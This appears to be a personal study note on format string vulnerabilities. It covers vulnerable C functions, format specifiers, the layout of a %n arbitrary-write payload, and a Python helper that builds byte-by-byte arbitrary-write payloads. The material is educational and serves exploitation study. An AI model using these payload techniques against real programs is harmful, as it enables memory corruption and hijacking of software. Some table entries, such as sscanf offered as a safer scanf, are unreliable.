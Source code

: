 Navigation: [[Binary Exploitation]]

---
# Introduction
Format string vulnerabilities occur when a user input is used directly in a formatting function without any validation. These functions interpret format specifiers to read or write memory. When we can control the format string, we can control it to read or write unintended memory.
# Table of Contents
# List of Vulnerable Functions
| Function       | Use                                         | Why It's Vulnerable                                   | Safer Alternative          |
|----------------|---------------------------------------------|-----------------------------------------------------|----------------------------|
| `printf`       | Prints formatted output to stdout           | Accepts user-controlled format strings              | `printf_s`, `snprintf`    |
| `fprintf`      | Prints formatted output to a file           | Accepts user-controlled format strings              | `fprintf_s`               |
| `sprintf`      | Writes formatted output to a string buffer  | Lacks buffer size checks, accepts uncontrolled input| `snprintf`                |
| `vsprintf`     | Writes formatted output using a va_list     | Lacks buffer size checks, accepts uncontrolled input| `vsnprintf`               |
| `scanf`        | Reads formatted input                      | Accepts uncontrolled format strings, stack overflows| `sscanf`                  |
| `vscanf`       | Reads formatted input using a va_list       | Accepts uncontrolled format strings, stack overflows| `vsscanf`                 |
| `snprintf`     | Writes formatted output with buffer size    | Can still misuse user-controlled format strings     | Validate inputs explicitly|
| `vprintf`      | Prints formatted output using a va_list     | Accepts user-controlled format strings              | Validate inputs explicitly|
# Format Specifiers

| Format Specifier | Output                                   | Description                                                               |
| ---------------- | ---------------------------------------- | ------------------------------------------------------------------------- |
| `%d`             | Signed decimal integer                   | Prints an integer in base 10 (signed).                                    |
| `%i`             | Signed decimal integer                   | Similar to `%d`, accepts decimal, octal, or hex input.                    |
| `%u`             | Unsigned decimal integer                 | Prints an unsigned integer in base 10.                                    |
| `%o`             | Unsigned octal integer                   | Prints an integer in base 8.                                              |
| `%x`             | Unsigned hexadecimal integer (lowercase) | Prints an integer in base 16 using lowercase letters.                     |
| `%X`             | Unsigned hexadecimal integer (uppercase) | Prints an integer in base 16 using uppercase letters.                     |
| `%f`             | Decimal floating-point number            | Prints a floating-point number with a fixed number of decimal places.     |
| `%e`             | Scientific notation (lowercase)          | Prints a floating-point number in scientific notation with lowercase `e`. |
| `%E`             | Scientific notation (uppercase)          | Prints a floating-point number in scientific notation with uppercase `E`. |
| `%g`             | Shorter of `%f` or `%e` (lowercase)      | Chooses the more compact form between `%f` and `%e`.                      |
| `%G`             | Shorter of `%f` or `%E` (uppercase)      | Chooses the more compact form between `%f` and `%E`.                      |
| `%c`             | Single character                         | Prints the corresponding character for an integer value.                  |
| `%s`             | Null-terminated string                   | Prints a string starting at a given memory address.                       |
| `%p`             | Pointer address                          | Prints a memory address in hexadecimal format.                            |
| `%n`             | Number of characters written so far      | Writes the count of printed characters to an integer pointer.             |
| `%%`             | Literal `%`                              | Prints a literal `%` symbol.                                              |
Of these specifiers, here's the main ones we'll be interested in:
1. `%p`
2. `%n`
3. `%x`
4. `%d`
5. `%s`

Another very useful character is `$`. Printing `%2$d` prints the second argument to `printf` as a decimal. Note that we'll be grabbing arguments to `printf` in the order of calling convention, eventually reaching data on the stack.

Note that when we do an arbitrary write, our payload will look like this:
```
<little endian target addr>%<pad size>x%<arg buf location>n

In this, we'll be writing our target address, followed by a padding. The padding must be a decimal number representing the hex value we want to write to the target address. Lastly, we'll need the location of our input string on the stack.

We need the input string since %n reads the pointer at the given address to write there, so by writing the target address to that string, we can then utilize the pointer

Note that with padding, we'll need to subtract the total number of address bytes we wrote.

Next, we can send multiple writes to smaller portions of memory (we should, padding will print whitespaces and it'll be impossible with %ln due to the number of spaces needed to be printed). Our payload will looking something like (ignore the spaces, they exist for the sake of formatting):
<addr 1> <addr 2> <addr 3> <addr 4>
% <addr 1 pad - written bytes> x <arg buf> n
% <addr 2 pad - written bytes> x <arg buf + 1> n
...

Note that we'll need to be substracting total number of written bytes from each segment.
```

Here's a helper script to do that:
```python
def arb_write_8(addr,data):
    payload = b''
    if data == 0: #If the amount is 0, we shouldn't print anything before %n
        payload = f"%10$hhn".encode()
    else:
        payload = f"%{data}c%10$hhn".encode()
    
    #Calculate the padding for us to be able to put a pointer afterwards. The fmt_string for 8bit arbitrary write should never go over 16.
    padding = b'A'*(16-len(payload))
    payload+=padding

    #Add the pointer we want to write to
    payload+=p64(addr)

    # Send the payload
    send_format_string(payload)

def arb_write_64(addr,data):
    #Calculate all bytes to write
    to_write = [
        data & 0xff,
        (data >> 8) & 0xff,
        (data >> 16) & 0xff,
        (data >> 24) & 0xff,
        (data >> 32) & 0xff,
        (data >> 40) & 0xff,
        (data >> 48) & 0xff,
        (data >> 56) & 0xff,
        ]
    #Write everything one byte at a time
    for i in range(0,len(to_write)):
        arb_write_8(addr+i,to_write[i])
```

# Sample Code


# Further Reading
https://github.com/Mymaqn/The-danger-of-repetivive-format-string-vulnerabilities-and-abusing-exit-on-full-RELRO

https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html

---
Navigation: [[Binary Exploitation]]